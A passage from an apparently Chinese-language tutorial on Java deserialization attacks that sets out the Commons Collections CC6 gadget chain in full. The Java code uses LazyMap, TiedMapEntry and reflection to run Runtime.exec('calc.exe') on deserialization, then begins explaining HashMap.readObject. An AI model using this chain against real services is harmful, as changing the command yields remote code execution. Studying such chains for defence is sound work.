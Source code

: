 ```java
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map1 = new HashMap<Object, Object>();
        //  修改 lazyMap 使链失效，不触发 Calc
        Map<Object, Object> lazyMap = LazyMap.decorate(map1, new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "1");

        HashMap<Object, Object> map2 = new HashMap<Object, Object>();
        // 会提前调用 hash(key)，导致 Clac
        map2.put(tiedMapEntry, "2");
        // 删除 put 时添加的 key
        lazyMap.remove("1");

        // 调用 put 方法后将 lazyMap 修改回正常可用的
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, chainedTransformer);

        //serialize(map2);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

在`HashMap`类中发现重写的`readObject`方法

![img](img/1667354789259-80bcfcf4-efe4-42f4-870f-9c346f52d605.png)

在这个方法的最后`HashMap`的键值(key)作为一个参数来调用`hash`方法
